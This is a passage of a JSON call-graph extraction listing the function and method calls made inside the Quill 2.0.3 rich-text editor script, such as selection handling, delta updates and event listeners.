"getComputedStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "handleNavigationShortcuts"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "ensureListeningToSelectionChange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "ensureListeningToSelectionChange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "now"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "now"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "handleSelectionChange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "handleSelectionChange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getRangeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "createRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setStartAfter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setEndAfter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "removeAllRanges"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "addRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "from"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "handleDOM"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "handleDOM"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "listenDOM"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "html"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "value"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "replaceAll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEachAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formats"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "isArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getDelta"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "applyDelta"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "batchStart"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "endsWith"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "descendant"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "line"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "descendant"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "diff"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "query"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "descendant"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "descendant"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "value"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "descendant"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "diff"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "updateEmbedAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "retain"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "deleteAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "batchEnd"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "optimize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "deleteText"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "deleteAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "retain"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formatLine"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "optimize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "retain"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "retain"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formatText"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "retain"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "retain"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getContents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getDelta"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "lines"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getFormat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "path"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "lines"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "descendants"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "shift"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getHTML"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "line"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getText"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getContents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertContents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "retain"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertContents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertEmbed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "retain"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertText"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "retain"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "isBlank"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "removeFormat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getText"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "line"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "delta"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getContents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "diff"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "retain"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "applyDelta"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "offset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "retain"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "compose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getDelta"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "compose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "diff"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setupListeners"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setupListeners"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "handleCompositionEnd"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "handleCompositionStart"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "batchStart"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "handleCompositionEnd"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "batchEnd"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getBoundingClientRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "debug"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "level"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "import"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "startsWith"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "startsWith"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "import"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "entries"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "import"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "debug"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "trim"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "addContainer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "query"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "theme"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "addModule"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "addModule"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "addModule"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "addModule"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "addModule"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "addModule"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "init"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "retain"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "retain"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "convert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setContents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "disable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "addContainer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertBefore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "blur"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "deleteText"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "deleteText"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "disable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "enable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "editReadOnly"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "enable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "enable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "toggle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "focus"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "focus"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "scrollSelectionIntoView"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "format"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": 